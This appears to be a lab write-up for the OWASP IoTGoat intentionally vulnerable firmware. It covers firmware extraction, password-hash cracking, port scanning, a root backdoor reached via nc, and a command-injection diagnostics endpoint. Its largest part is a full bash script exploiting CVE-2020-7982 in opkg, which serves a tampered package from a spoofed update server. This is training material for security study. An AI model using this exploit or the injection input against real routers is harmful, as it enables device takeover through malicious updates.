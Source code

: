 # IoTGoat - Firmware

You can download the firmware from the official OWASP release:

🔗 [Download IoTGoat Firmware (v1.0)](https://github.com/OWASP/IoTGoat/releases/download/v1.0/IoTGoat-x86.img.gz)

- After downloading the firmware , **extract** the `.img` file . 
- Then use **binwalk** to view/extract the file system embedded in the firmware.

```
$ binwalk IoTGoat-x86.img

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
262144        0x40000         Linux EXT filesystem, blocks count: 4096, image size: 4194304, rev 2.0, ext2 filesystem data, UUID=57f8f4bc-abf4-655f-bf67-946fc0f9c0f9
5325930       0x51446A        xz compressed data
17301504      0x1080000       Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3481630 bytes, 1352 inodes, blocksize: 262144 bytes
```
- Here **Squashfs Filesystem** is the type of compressed file system , used for read-only file-system. This is where the linux files are been held.

---

> Hardcoded Password

- Then you find some hardcoded passwds in /etc/shadow of the squashfs-root. This passwds can be cracked using some tools called `John The Ripper` and `HashCat`.

- I used some commonly used wordlist called mirabot-net. And cracked the passwd for **iotgoatuser**.

- For the root, it didn't work. I used rockyou.txt which also failed. So I tried to make a custom wordlist using some tools called crunch but it didn't as per my thought. So I am searching for some another ways to crack the password.

---
> Legacy network services listening upon start up

- This one is basically using nmap to search for open port in the router's ip.

- I got multiple services, for example:- http server , ssh and also telnetd which asks credentials when connected through nc.

---

> Persistent backdoor daemon configured to run during start up

- I found the backdoor when scanned the ip for open ports.I used nmap to scan for open ports. Some open ports were http,https which shows it is running some web.

- I used used a GUI tool of namp called zenmap in kali linux which hand in-built nmap option where i choose to scan all tcp port. This scan resulted in showing a tcp as backdoor.

- When I tried to connect to it through nc, i got the access as root. I also tried to create a file which was successful.

---

> A "secret" developer diagnostics page not directly accessible and exposes shell access to users

- When you look at the url of the web page , you can see the path of the file (i.e) */www/cgi-bin/luci* which is like a entry-point. By examining it and got to found out that it the code just gets and information and instruction from */usr/lib/lua/luci* (backend).

- Then I checked the controller directory and discovered the IoTGoat backend code for the camera and door modules, as well as a hidden command injection endpoint — **a secret developer diagnostics page**.

- Also it had a command to send through url (i.e) webcmd. I can send cmd through it for example, webcmd?cmd=ls will return me the output.

---

> Insufficient Privacy Protection

- I found out many leaked data using firmwalker which is a automated script to find the binarys, db files and more.

- It showed me many db files and keys for multiple apps. One db was in */usr/lib/lua/luci/controller/iotgoat/sensordata.db* which had email and their birthday dates.

---

> Lack of Device Management

- In the web application, only the kernal logs are avaiable in system. the Openwrt logs are not enabled.

---

> Insecure package update configuration defaults including CVE-2020-7982.

- opkg reads the SHA256sum field but the value has a leading space.The function checksum_hex2bin() tries to skip the space, but by mistake, it still uses the untrimmed version for decoding.This causes the decoding to fail silently, so no checksum gets stored.Later, the checksum check is skipped, allowing tampered packages to be installed without warning.

- So to exploit this **CVE-2020-7982** , we need the patch our own binary with a packages(download from [https://download.openwrt.org](https://download.openwrt.org)).

- We can find the architecture of the file which the opkg download from the server using **opkg print-architecture**.

- After finding the architecture, we can write a script to host a server to mimic the server from which opkg fetch the files and checks its intergity(actually it fails here).

```
#!/bin/bash
set -e
rm -rf downloads.openwrt.org/ attr_20170915-1_i386_pentium4.ipk releases/

wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/luci/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/luci/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/routing/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/routing/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/telephony/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/telephony/Packages.sig || true
wget -x http://downloads.openwrt.org/releases/18.06.2/targets/x86/generic/packages/Packages.gz || true
wget -x http://downloads.openwrt.org/releases/18.06.2/targets/x86/generic/packages/Packages.sig || true

mv downloads.openwrt.org/releases .
rm -rf downloads.openwrt.org/

wget https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/attr_20170915-1_i386_pentium4.ipk
ORIGINAL_FILESIZE=$(stat -c%s "attr_20170915-1_i386_pentium4.ipk")
tar zxf attr_20170915-1_i386_pentium4.ipk
rm attr_20170915-1_i386_pentium4.ipk
mkdir data/
cd data/
tar zxvf ../data.tar.gz
rm ../data.tar.gz
rm -f /tmp/pwned.asm /tmp/pwned.o
echo "section .text" >>/tmp/pwned.asm
echo "global _start" >>/tmp/pwned.asm
echo "_start:" >>/tmp/pwned.asm
echo " mov edx,len" >>/tmp/pwned.asm
echo " mov ecx,msg" >>/tmp/pwned.asm
echo " mov ebx,1" >>/tmp/pwned.asm
echo " mov eax,4" >>/tmp/pwned.asm
echo " int 0x80" >>/tmp/pwned.asm
echo " mov eax,1" >>/tmp/pwned.asm
echo " int 0x80" >>/tmp/pwned.asm
echo "section .data" >>/tmp/pwned.asm
echo "msg db 'Nice Ch3ck',0xa" >>/tmp/pwned.asm
echo "len equ $ - msg" >>/tmp/pwned.asm
nasm -f elf32 /tmp/pwned.asm -o /tmp/pwned.o
ld -m elf_i386 /tmp/pwned.o -o usr/bin/attr
tar czvf ../data.tar.gz *
cd ../
rm -rf data/
tar czvf attr_20170915-1_i386_pentium4.ipk control.tar.gz data.tar.gz debian-binary
rm control.tar.gz data.tar.gz debian-binary
MODIFIED_FILESIZE=$(stat -c%s "attr_20170915-1_i386_pentium4.ipk")
FILESIZE_DELTA="$(($ORIGINAL_FILESIZE-$MODIFIED_FILESIZE))"
if [ $FILESIZE_DELTA -gt 0 ]; then
  head -c $FILESIZE_DELTA </dev/zero >>attr_20170915-1_i386_pentium4.ipk
fi
wget https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/libattr_20170915-1_i386_pentium4.ipk
mkdir -p releases/18.06.2/packages/i386_pentium4/packages/
mv attr_20170915-1_i386_pentium4.ipk releases/18.06.2/packages/i386_pentium4/packages/
mv libattr_20170915-1_i386_pentium4.ipk releases/18.06.2/packages/i386_pentium4/packages/
sudo python3 -m http.server 80 --bind 0.0.0.0
```

- Above script, sets up a server and mimics as package server. But we should also configue the */etc/host* with our hosting ip. This only works when the opkg searchs for the package in the script's ip. There is also a another way to do without interacting or changes things in firmware, it is called DNS spoofing , which just redirects the request to our package server.

- Then run **opkg update && opkg install attr** which configures the attr perfectly without any warning.

- If we run attr, it displays *Nice Ch3ck*.

		

